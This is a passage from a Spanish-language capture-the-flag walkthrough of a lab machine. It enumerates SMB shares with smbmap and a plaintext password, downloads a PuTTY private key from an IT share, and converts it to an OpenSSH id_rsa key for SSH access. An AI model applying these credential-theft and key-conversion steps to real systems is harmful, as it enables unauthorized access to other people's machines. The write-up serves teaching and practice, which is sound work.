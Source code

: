 Veamos qué hay dentro:
```bash
smbmap -H 192.168.100.150 -u 'dean' -p '**********' -r IT_TOOLS --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.100.150:445	Name: gyhabogados.thl     	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	CONFIDENCIALES                                    	READ ONLY	Documentos Confidenciales de Clientes
	IT_TOOLS                                          	READ ONLY	IT Tools
	./IT_TOOLS
	dr--r--r--                0 Sun Dec  8 11:12:50 2024	.
	dr--r--r--                0 Sun Dec  8 11:55:59 2024	..
	fr--r--r--             1458 Sat Dec  7 18:20:46 2024	private_key.ppk
	RESPALDOS_IT                                      	READ ONLY	Respaldos IT
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.17.12-Debian)
	dean                                              	READ ONLY	Home Directories
```
Solo hay una llave privada.

Descarguémosla:
```bash
smbmap -H 192.168.100.150 -u 'dean' -p 'MasterOfPuppets1986' --download IT_TOOLS/private_key.ppk --no-banner
mv 192.168.100.150-IT_TOOLS_private_key.ppk private_key.ppk
```

Si analizamos el archivo, resulta ser una llave privada de **PuTTY**:
```bash
file private_key.ppk
private_key.ppk: PuTTY Private Key File, version 3, algorithm ssh-rsa
```

Podemos obtener un poco más de información usando la herramienta **puttygen**, por ejemplo, la huella digital:
```bash
puttygen private_key.ppk -l
ssh-rsa 2048 SHA256:bE/OC0a4W0YALcfFb3ZMKvbx94oNGvsOvb0CajKFqOY
```
Algo importante, es que no nos pidió meter una contraseña, por lo que es posible modificar esta llave para convertirla en una **llave privada id_rsa** para el **servicio SSH**.

La podemos generar con **puttygen** y le damos los permisos correctos:
```bash
puttygen private_key.ppk -O private-openssh -o id_rsa
chmod 600 id_rsa
```
Ya solo tenemos que averiguar a quién pertenece esta llave.
